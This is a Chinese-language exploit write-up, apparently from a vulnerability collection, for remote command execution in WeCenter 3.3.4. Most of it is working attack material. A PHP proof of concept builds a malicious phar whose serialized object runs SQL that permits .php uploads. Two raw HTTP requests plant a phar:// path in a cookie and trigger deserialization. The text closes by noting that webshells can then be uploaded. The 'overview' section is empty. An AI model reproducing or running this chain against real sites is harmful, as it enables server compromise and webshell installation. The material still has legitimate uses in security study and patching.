 WeCenter 3.3.4 远程命令执行
===========================

一、漏洞简介
------------

二、漏洞影响
------------

WeCenter 3.3.4

三、复现过程
------------

### 远程命令执行

**WeCenter** 后台的 **允许的附件文件类型**
处，设置了用户可上传的文件类型后缀。而这个配置是写在数据库中的，我们可以利用前面的任意
**SQL** 语句执行的 **POP** 链，往字段中添加 **php** 文件后缀。

![](./resource/WeCenter3.3.4远程命令执行/media/rId25.png)

### poc

    <?php
    class AWS_MODEL
    {
        private $_shutdown_query = array();

        public function __construct($_shutdown_query)
        {
            $this->_shutdown_query = $_shutdown_query;
        }
    }

    $sql = array('update aws_system_setting set value=\'s:45:"jpg,jpeg,png,gif,zip,doc,docx,rar,pdf,psd,php";\' where varname=\'allowed_upload_types\'');
    $evilobj = new AWS_MODEL($sql);
    // phar.readonly无法通过该语句进行设置: init_set("phar.readonly",0);
    $filename = 'poc.phar';// 后缀必须为phar，否则程序无法运行
    file_exists($filename) ? unlink($filename) : null;
    $phar=new Phar($filename);
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>");
    $phar->setMetadata($evilobj);
    $phar->addFromString("foo.txt","bar");
    $phar->stopBuffering();
    ?>

### 利用

这里以 **RCE** 利用为例子。我们先用上面的 **EXP**
生成文件，然后找个可以上传文件的地方。这里要注意，一定不要选择在用户头像处上传。这里我们通过发起问题的地方来上传文件。

![](./resource/WeCenter3.3.4远程命令执行/media/rId28.png)

通过如下数据包，将 **headimgurl** 插入数据库中（ **Cookie**
前缀每个网站都不一样，修改成自己的即可）。

    GET /wecenter334/?/m/weixin/binding/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=akl7d5skae6ebea69bp8r1b4f0; CNZZDATA1273638993=564846603-1579067041-%7C1579097763; xhj__user_login=NcIFvaZbkaxoQfofEGo%2FSOCyrXq5R0lZofmF9uqaJHO5tpVyag7GEP3fdh9hKvPUf8Xj4x3kkxgLXcf1L4wocSQu9BUquhozfdiEN2Hfg8vj73XVn1f09yLfbpfbVs7K; xhj__WXConnect={"access_token":{"openid":1},"access_user":{"headimgurl":"phar:\/\/uploads\/question\/20200116\/f39510a7e8e47e3e4dcabbadeedd12f7.gif","nickname":"mochazz"}}
    Connection: close
    $wx = array(
        'access_token' => array('openid'=>1),
        'access_user'  => array('headimgurl'=>'phar:///uploads/question/20200116/f39510a7e8e47e3e4dcabbadeedd12f7.gif','nickname'=>'mochazz')
    );
    echo json_encode($wx);

接着通过如下数据包触发 **phar反序列化** 执行 **SQL** 语句。

    GET /wecenter334/?/account/ajax/synch_img/ HTTP/1.1
    Host: 0.0.0.0
    Cookie: XDEBUG_SESSION=PHPSTORM; Hm_lvt_f8d0a8c400404989e195270b0bbf060a=1578564275,1578582675,1578897163; UM_distinctid=16fa7f15a43278-0cbd6002fe98e4-31730657-100200-16fa7f15a44385; xhj__Session=qb72k9k1sl53gqibbg53nf32o1; CNZZDATA1273638993=564846603-1579067041-%7C1579137884; xhj__user_login=N9hSYaQOjPMdtxOXo9jQuCVQSykmK88gl3DTI4AmL%2BnhLpgnHFGGSHkzxAPYaVMbXo%2FAndADc%2FaD0wytUEK71YrLmxWCuEZDCSwn9b0ApyOpcIKa6E4cOotHqZpZwVq%2B
    Connection: close

现在，我们就可以随意上传 **webshell** 了。

![](./resource/WeCenter3.3.4远程命令执行/media/rId29.png)

image

